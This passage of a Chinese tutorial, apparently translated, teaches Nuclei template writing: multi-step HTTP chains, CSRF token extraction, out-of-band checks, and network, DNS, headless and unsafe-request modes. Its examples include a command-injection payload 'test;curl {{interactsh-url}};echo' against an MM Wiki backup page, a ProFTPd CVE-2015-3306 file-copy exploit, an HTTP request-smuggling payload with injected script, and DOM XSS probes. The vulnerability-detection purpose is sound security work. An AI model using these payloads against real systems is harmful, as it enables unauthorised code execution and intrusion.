

表单提交的实际请求如下所示：



我们可以看到，我们需要在POST请求体中发送用户名和密码作为URL编码的表单参数。

为了发出多个请求，我们在“raw”字段下添加多个数组元素。让我们添加第二个请求，这次是一个POST请求到register.php,并带有用户名和密码。现在我们的raw请求数组包含了我们的前两个请求，如下所示：

```yaml
requests:
  - raw:
    - |
      GET {{Path}} HTTP/1.1
      Host: {{Hostname}}

    - |
      POST {{Path}}/register.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
      username=65aca3e27440558a&password=65aca3e27440558a
```

如果账户创建成功，我们就可以通过提交我们选择的凭证登录到login.php页面。对登录表单的请求以及服务器的响应如下：



我们将向raw请求数组的末尾添加另一个请求，其中包含以下数据：

```yaml
    - |
      POST {{Path}}/login.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
      username=65aca3e27440558a&password=65aca3e27440558a

```

## 跟踪重定向

登陆成功后，登录页面会将我们的浏览器重定向到`home.php` ，对于这个漏洞链来说，我们是否跟踪重定向并不重要，但是如果我们想确保Nuclei跟踪重定向，我们需要在模板中添加以下内容：

```yaml
redirects: true
```

## 管理会话

这里我们需要用到另一个模板特性是Cookie重用选项。这是一个布尔字段，告诉Nuclei在应用程序设置了会话Cookie后，在后续的HTTP请求的Cookie头中重用相同的会话Cookie。为了实现这一点，我们需要在模板中添加以下行：

```yaml
cookie-reuse: true    
```

这样，当Nuclei与我们的漏洞应用程序交互时，它将在每个请求中发送PHPSESSID Cookie。

现在，我们已经告诉Nuclei如何执行漏洞链的步骤2和3，接下来我们进行步骤4，即获取`backup_db.php`页面并从备份表单中提取CSRF令牌。为了实现这一点，我们需要使用Nuclei模板的提取器功能。

## 提取器

提取器会在响应中查找并提取特定值。提取到的值可以显示在工具的控制台输出中，也可以在后续的请求中使用。这个功能非常适合处理CSRF令牌或包含我们需要在请求链中包含的信息的自定义响应头或Cookie。

为了演示提取器的工作原理，让我们为我们的模板编写漏洞链的第四步。

下面是创建备份的表单：


为了获取它，我们需要在原始请求数组的末尾添加另一个请求：

```yaml
    - |
      GET {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
```

下面呢是“创建备份”表单的HTML片段（通过GET请求`backup_db.php`返回），其中高亮显示了CSRF令牌的位置。



CSRF令牌存储在一个隐藏的表单输入中。一旦我们受到`backup_db.php`的GET请求的HTML响应，我们就需要使用提取器提取随机的CSRF令牌之，以便在下一步的表单提交中使用它。有几种类型的提取器可用，包括正则表达式、JSON查询、XPath和我们熟悉的DSL。在本例中，我们选择使用正则表达式，并在模板中添加以下行：
```yaml
    extractors:
      - type: regex
        name: csrftoken
        part: body
        internal: true # Required for using dynamic variables, if not set, then values are extracted and printed to console output
        group: 1
        regex: # could also maybe use an Xpath Extractor
          - 'csrftoken" value="([a-f0-9]{10})'

```

有时候，Xpath可能更容易使用。如果我们选择在模板中使用XPath，提取器的定义将改为：
```yaml
    extractors:
      - type: xpath
        name: csrftoken
        part: body
        internal: true
        attribute: value
        xpath:
          - '/html/body/form/p/input[2]'
```

寻找XPath表达式的一个快速技巧是使用浏览器的开发者工具来显示给定元素的节点层次结构。在浏览器中打开开发者工具并使用检查器获取页面元素的信息，工具窗口应该会显示所选节点的路径。例如，在Firefox中，状态栏区域会显示所选元素的路径信息：


一旦我们从响应中提取了CSRF令牌，就可以在利用远程代码执行漏洞的最终请求中使用它。如果应用程序存在RCE漏洞，那么发送到`backup_db.php`的POST请求的请求和响应数据大致如下：


命令注入点位于POST请求体数据的`backup_name`参数中。我们还需要在POST请求体中的`csrftoken`参数中提供正确的CSRF令牌（我们在上一步中提取到的）。我们需要添加到模板中的请求数据，位于原始请求数组的末尾。

```yaml
    - |
      POST {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
      backup_name=test123456&submit=Create+Backup&csrftoken={{csrftoken}}

```

如果应用程序存在漏洞且利用成功，应用程序返回的HTTP响应中将显示一个指向生成的备份文件的超链接。我们需要使用匹配器来检测链接的存在并标记这个关键漏洞。这里可以使用的一个有用的模板功能是请求条件。

## 请求条件

请求条件与匹配器的DSL表达式结合使用。它们允许逻辑表达式包含跨多个请求/响应的条件。要使用请求条件，我们需要在模板中添加"`req-condition:true`" 选项。响应的属性可以后缀"_<请求编号>"来引用特定的响应，例如`status_code_1`、`status_code_3`或`body_2`。

对于我们的模板，我们将检查第五个响应中是否存在备份下载链接。

```yaml
    req-condition: true
    matchers:
      - type: dsl
        dsl:
          - "contains(body_1,'MM Wiki Version')"
          - "contains(body_5,'downloadbackup.php?f=dbbackup-')"
        condition: and
```

请注意，可以使用多个DSL表达式列表。用于评估多个表达式的逻辑运算符通过`"condition:<logical_operator>"`字段指定。在本例中，我们使用逻辑“and”运算符，DSL表达式将被评估为：

```yaml
contains(body_1,'MM Wiki Version') && contains(body_5,'downloadbackup.php?f=dbbackup-')
```

作为一个旁注，我们也可以直接像上面那样编写DSL表达式，但是如果要匹配的字符串列表很长，使用YAML数组表示法会更具可读性。

最终的模板如下：

```yaml
id: mmwiki-rce

info:
    name: MM Wiki DB Backup Remote Code Execution
    author: me
    severity: critical
    description: Detect MM Wiki database backup page Remote Code Execution vulnerability
    
requests:
  - raw:
    - |
      GET {{Path}} HTTP/1.1
      Host: {{Hostname}}

    - |
      POST {{Path}}/register.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
      username=65aca3e27440558a&password=65aca3e27440558a

    - |
      POST {{Path}}/login.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
      username=65aca3e27440558a&password=65aca3e27440558a

    - |
      GET {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}

    - |
      POST {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
      backup_name=test123456&submit=Create+Backup&csrftoken={{csrftoken}}

    redirects: true
    cookie-reuse: true      
    extractors:
      - type: regex
        name: csrftoken
        part: body
        internal: true
        group: 1
        regex:
          - 'csrftoken" value="([a-f0-9]{10})'
    req-condition: true
    matchers:
      - type: dsl
        dsl:
          - "contains(body_1,'MM Wiki Version')"
          - "contains(body_5,'downloadbackup.php?f=dbbackup-')"
        condition: and

```

## 带外交互

测试应用程序中的远程代码执行（RCE）或服务端请求伪造（SSRF）漏洞的一种可靠方法是使用带外交互的payload。本质上，这意味着诱使应用程序后端连接到我们可以监控的外部服务。各种工具常用的交互方式是进行DNS查询或向安全研究人员可以访问日志功能的主机发起HTTP请求。

ProjectDiscovery的interactsh工具就是为此目的而设计的。为了演示如何在Nuclei模板中使用它，我们可以修改最后一个请求，将interactsh UURL作为命令注入payload的一部分注入，并使用一个匹配器来检查交互。

模板中的第五个原始HTTP请求将更改为以下内容：

```yaml
    - |
      POST {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
 backup_name=test%3Bcurl+{{interactsh-url}}%3Becho+&submit=Create+Backup&csrftoken={{csrftoken}}
```

经过URL解码后，注入到漏洞参数的payload是：

```yaml
test;curl {{interactsh-url}};echo
```

这会生成一个interactsh URL，比如`vyxlk2172l7dqfhn58gvy5362x8nwc.oast.fun` ，并在发送到服务器之前将其插入到请求中。

匹配器将更改为以下内容：

```yaml
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"
```

这个匹配器会查询`interactsh`服务器，并检查它是否收到了来自脆弱目标的HTTP请求，除了HTTP交互，我们也可以使用DNS或SMTP。有关使用带外交互的更多详细信息，请参阅[模板指南](https://nuclei.projectdiscovery.io/templating-guide/interactsh/?ref=blog.projectdiscovery.io)。

以下是一个Nuclei检测`interactsh`的示例输出：



## 非HTTP模式

Nuclei支持几种与目标主机及其服务交互的非HTTP模式。这些模式包括：

| 模式    | 描述                                                 |
| ------- | ---------------------------------------------------- |
| Network | 使用 TCP 或 TLS 连接与网络服务进行通信               |
| DNS     | 通过 UDP 发送和接收 DNS 协议通信                     |
| File    | 在本地文件系统中查找文件，并在其中执行匹配和数据提取 |

## 网络模式

为了说明网络模式，我们将创建要给模板来指纹识别一个实例服务。首先，我们将使用像Wireshark这样的数据包捕获和检查工具来分析客户端和网络服务之间的通信，以便我们了解预期的请求和响应。

例如，为了发起与服务的连接，客户端总是发送以下二进制数据（蓝色高亮显示的数据是我们想要的；它是实际的TCP负载，前面的字节是我们可以忽略的以太网帧和TCP段信息）：



网络协议要求服务以始终以相同的14字节序列（以0xE5 0x15 0xE2 开头）开始的数据结构进行响应：



我们可以编写一个使用网络模式的模板来检测该服务是否在目标上运行。

网络模板的关键部分包括：

- 模板ID
- 模板信息
- 网络数据
- 主机
- 输入数据
- 读取长度
- 主机响应匹配器 

我们的示例服务可以使用以下模板进行检测：

```yaml
id: jnexcomm-detect

info:
  name: JNEXComm Service Detection
  author: me
  severity: info

network:
  - inputs:
      - data: "{{hex_decode('9c05f72b9e4b967b434f4e4e0a0a0a')}}"
    host:
      - "{{Host}}:6101"
      - "{{Host}}:6102"
      - "{{Host}}:6103"

    read-size: 14
    matchers:
      - type: word
        words:
          - "{{hex_decode('e515e23230fff7bef6019cc7c1c1')}}"

```

要对一个主机运行这个模板，命令行可能类似于：

```bash
nuclei -u 10.20.30.40 -t jnexcomm-detect.yaml
```

让我们来检查模板示例中的每个关键网络数据字段。

### inputs

`inputs` 字段告诉Nuclei要向远程服务发送什么数据。数据可以是一个简单的字符串值，比如`HELLO\r\n,`也可以使用各种辅助函数来构造请求，从而发送更复杂的数据。在本例中，数据以十六进制的形式提供，并使用`hex_decode()`辅助函数解码为其二进制等效值。

### host

host 字段通常只应使用{{Host}}或者{{Hostname}}变量。它们的区别可以通过以下示例来说明。如果用户指定目标如下：
```yaml
nuclei -u 10.20.30.40:8080
```

{{Host}}将赋值为“10.20.30.40”

{{Hostname}}将被赋值为“10.20.30.40:8080”

网络模板可以选择性地指定一个TCP端口，期望服务监听在这个端口上如上例所示，我们尝试连接到6101-6103端口。如果我们在模板中制定了端口，则需要使用{{host}}。如果在模板中不硬编码TCP端口号，则需要使用{{Hostname}}，并且用户需要在命令行或目标列表文件中提供端口作为目标主机规范的一部分。例如：
```yaml
nuclei -t jnexcomm-detect.yaml -u 10.12.34.56:6101
```

如果用户使用TLS传输安全，可以使用`tls://`方案进行执行，如下列所示：
```yaml
host:
  - "tls://{{Hostname}}"
```

### read-size

read-size字段制定了从远程服务的响应中读取多少字节以供匹配器分析。在本例中，我们需要检查响应的前14个字节用于指纹识别服务。

### matchers

matchers（匹配器）将对服务读取的字节进行匹配，其类型与HTTP请求模式中的类型相同。在本例中，我们使用了一个简单的字符串（单词）匹配器，与输入一样，它使用一个辅助函数，以便我们可以用十六进制标识期望的服务响应签名。

### 多步交互

与HTTP模式一样，网络模式也可以对目标服务进行多步通信。一个多步网络模板的示例是CVE-2015-3306漏洞利用。

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

network:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 

```

## DNS模式

该模式允许构建DNS请求并将其发送到命名服务器。Nuclei的匹配和提取功能可以用于处理和分析服务器的响应。一个展示DNS模式模板的主要组件的例子是：
```yaml
id: dummy-cname-a

info:
  name: Dummy A dns request
  author: mzack9999
  severity: none
  description: Checks if CNAME and A record is returned.

dns:
  - name: "{{FQDN}}"
    type: A
    class: inet
    recursion: true
    retries: 3
    matchers:
      - type: word
        words:
          # The response must contain a CNAME record
          - "IN\tCNAME"
          # and also at least 1 A record
          - "IN\tA"
        condition: and

```

DNS查询是通过系统或Nuclei配置使用的解析器发送的。DNS数据中的关键字段总结如下：
### name

DNS查询中要解析的域名或子域名。通常情况下，会使用变量{{FQDN}}来指定，例如：
```bash
nuclei -t dns/caa-fingerprint.yaml -u mytargetdomain.com
```

这条命令会将{{FQDN}}变量赋值为`mytargetdomain.com`

### type

DNS查询中请求的记录类型。常见类型包括A、AAAA、TXT、MX、CNAME和PTR。

### class

有效的类型包括inet、csnet、chaos、hesiod、none和any。通常情况下，使用inet。

### recursion

告诉Nuclei DNS解析器是否应该只返回缓存结果，或者遍历DNS服务器层次结构以检索最新结果。通常情况下，将此选项设置为true。

### retries

在Nuclei放弃之前，查询将尝试的次数。合理的值为3.

### matchers

匹配器将对从服务读取的字节进行匹配，匹配器类型与HTTP请求模式中的类型相同。在本例中，我们使用了一个简单的字符串（单词）匹配器，并使用逻辑AND条件来确保响应中匹配两个术语。

## 无头模式

Nuclei具有无头模式，该模式使用无头浏览器引擎与网页进行交互。浏览器引擎使用领域特定语言（DSL）进行脚本编写，可以自动化诸如左/右单机页面元素、注入按键和文本到表单等典型用户操作。无头浏览器还可以编写脚本以截取屏幕并在页面上下文中运行任意JavaScript。

无头模式对于一些安全评估场景非常有用。

Nuclei的无头模式模板是CI/CD管道中自动化动态安全测试的有用工具。动态测试可以专注于业务逻辑和客户端漏洞，例如XSS或任意重定向。

一个Web应用程序可能同时使用HTTP请求和WebScokets，这对于编写HTTP或网络模式模板来说可能非常复杂。使用无头模式浏览器可以简化测试。

一个应用程序可能严重依赖自定义前端的JavaScript代码。他可能使用易受对象原型污染或基于DOM的跨站脚本（XSS）攻击的库。虽然有许多工具可以根据依赖项的版本号来枚举和检查易受攻击的库，但我们可能想要确定应用程序是否真的可利用。

涉及跟踪执行流程的JavaScript静态分析可能非常复杂，因此使用无头模式对应用程序的UI进行自动动态测试可能是一个不错的方法。

我们可以使用无头模式的脚本注入操作将自定义JavaScript注入页面。代码可以将有效载荷注入数据源或函数参数，然后我们可以挂钩标准的窗口函数来检测我们的有效载荷是否导致出发了`window.alert()`、`eval()`或`document.write()`。

下面是一个无头模式模板示例。该模板测试通过`window.name`属性是否存在可能的基于DOM的XSS。

测试逻辑集中在注入到页面中的自定义JavaScript代码（在第二个action中）。通过使用`hook:true`选项，可以在页面加载之前进行无头模式脚本注入，本-示例即为此情况。

脚本挂钩了一些内置的sink，如innerHTML属性、document.write()和eval（），使用navigate action加载页面，然后使用另一个script action将有效载荷"{{randstr_1}}""<>"注入到目标页面的window.name属性中。

无头模式允许我们使用匹配器或提取器来检查JavaScript对像的值。包含该对象的JavaScript代码必须使用name字段命名（例如，“name:some_js_code”），并且可以使用提取器的part字段引用（例如，”part:some_js_code“）。在示例中，”window.alerts“属性包含在名为"alerts"的script action中，并在匹配器和提取器中引用为"part:alerts"。

```yaml

id: window-name-domxss

info:
  name: window.name DOM XSS
  author: pd-team
  severity: medium

headless:
  - steps:
      - action: setheader
        args:
          part: response
          key: Content-Security-Policy
          value: "default-src * 'unsafe-inline' 'unsafe-eval' data: blob:;"
      - action: script
        args:
          hook: true
          code: |
            (function() {window.alerts = [];

            function logger(found) {
                window.alerts.push(found);
            }

            function getStackTrace () {
              var stack;
              try {
                throw new Error('');
              }
              catch (error) {
                stack = error.stack || '';
              }
              stack = stack.split('\n').map(function (line) { return line.trim(); });
              return stack.splice(stack[0] == 'Error' ? 2 : 1);
            }
            window.name = "{{randstr_1}}'\"<>";

            var oldEval = eval;
            var oldDocumentWrite = document.write;
            var setter = Object.getOwnPropertyDescriptor(Element.prototype, 'innerHTML').set;
            Object.defineProperty(Element.prototype, 'innerHTML', {
              set: function innerHTML_Setter(val) {
                if (val.includes("{{randstr_1}}'\"<>")) {
                  logger({sink: 'innerHTML', source: 'window.name', code: val, stack: getStackTrace()});
                }
                return setter.call(this, val)
              }
            });
            eval = function(data) {
              if (data.includes("{{randstr_1}}'\"<>")) {
                logger({sink: 'eval' ,source: 'window.name', code: data, stack: getStackTrace()});
              }
              return oldEval.apply(this, arguments);
            };
            document.write = function(data) {
              if (data.includes("{{randstr_1}}'\"<>")) {
                logger({sink: 'document.write' ,source: 'window.name', code: data, stack: getStackTrace()});
              }
              return oldEval.apply(this, arguments);
            };
            })();
      - args:
          url: "{{BaseURL}}"
        action: navigate
      - action: waitload
      - action: script
        name: alerts
        args:
          code: "window.alerts"
    matchers:
      - type: word
        part: alerts
        words:
          - "sink:"
    extractors:
      - type: kval
        part: alerts
        kval:
          - alerts
```

无头模式模板提供了许多用于编写浏览器引擎脚本的动作。虽然我们不再这里一一描述，但一些常用的动作包括navigate、click、text、waitload和keypress。完整的动作列表可以在官方模板指南中找到。

为了演示一些常见动作，让我们重新编写我们的MM Wiki RCE模板以使用无头模式。

主要模板数据位于"headless"字段下。这应该包含”steps“(一系列动作)、”matchers“和”extractors“。

每个动作都需要参数，例如navigate动作的URL或text动作的文本值。许多常见的动作需要一个选择器来精确指出动作适用于哪个DOM元素，例如<input>或<button>元素。无头模板引擎提供了集中选择器类型，包括XPath、正则表达式或CSS选择器（ID或类）。在示例模板中，我们使用XPath选择器将click和text动作与响应的表单元素关联起来。

我们将MM Wiki RCE模板转换为使用无头模式交互的版本，如下所示：
```yaml
id: mmwiki-rce-headless
 
info:
  name: MMWiki RCE Headless Mode
  author: me
  severity: critical
 
headless:
  - steps:
      - action: navigate
        args:
          url: "{{BaseURL}}/register.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[1]
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[2]
      - action: click
        args:
          by: xpath
          xpath: /html/body/div/form/div/button
      - action: waitload
      - action: navigate
        args:
          url: "{{BaseURL}}/index.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[1]
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[2]
      - action: click
        args:
          by: xpath
          xpath: /html/body/div/form/div/button[1]
      - action: waitload
      - action: navigate
        args:
          url: "{{BaseURL}}/backup_db.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: "test;curl {{interactsh-url}};echo "
          xpath: /html/body/form/input[1]
      - action: click
        args:
          by: xpath
          xpath: /html/body/form/p/input[1]
      - action: waitload
 
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction 
        words:
          - "http"

```

模板应该使用CLI上的-headless选项运行，如下所示：

```bash
nuclei -u https://10.20.30.40 -t mmwiki-rce-headless.yaml -headless
```

请务必记住使用-headless标志！如果没有这个标志，Nuclei仍然会运行模板，但你可能不会得到任何发现，或者没有任何迹象表明实际上并没有向目标发送任何内容。

## 高级模糊测试

之前我们简单提到了在HTTP模式下对应用程序进行模糊测试。Nuclei模板支持一些更高级的模糊测试功能。在这里我们将对其进行概述。

这些功能包括：

- 不安全请求
- 流水线
- 连接池
- 竞争条件

### 不安全请求

Nuclei通过rawhttp库支持畸形的HTTP请求，可用于测试诸如HTTP请求走私和Host头注入等问题。要使用不安全HTTP模式，需要在请求块中设置`unsafe:true`选项。以下是一个简短的HTTP请求走私示例，演示了一个不安全的请求。

```yaml
requests:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'

```

### 流水线

HTTP流水线是HTTP协议（从1.1版本开始）的一项功能，它允许在同一个TCP连接上发送多个请求，而无需等待每个对应的响应。这与连接重用不同，在连接重用中，即使使用相同的TCP连接进行多个请求客户端也会在发出下一个请求之前等待服务器的响应。流水线在从Web服务器获取资源时优化了网络延迟和带宽。

Mozilla开发者文档中的这张图形象地比较了标准HTTP连接、连接重用和流水线之前的延迟。

